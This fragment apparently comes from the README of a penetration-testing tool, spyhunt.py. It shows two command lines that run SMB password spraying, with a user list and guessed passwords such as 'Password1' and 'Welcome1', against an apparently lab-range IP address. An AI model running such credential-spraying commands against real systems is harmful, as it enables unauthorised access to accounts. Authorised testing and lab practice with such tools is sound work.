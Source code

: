 ```
SMB Password Spraying with Single Password
```
python3 spyhunt.py --smb_auto --smb-target 10.129.228.111 --spray-userlist users.txt --spray-password "Password1"
```
SMB Full Pentest (Credentials + Password Spray)
```
python3 spyhunt.py --smb_auto --smb-target 10.129.228.111 --smb-user mhope --smb-pass "" --spray-userlist users.txt --spray-password "Welcome1"
```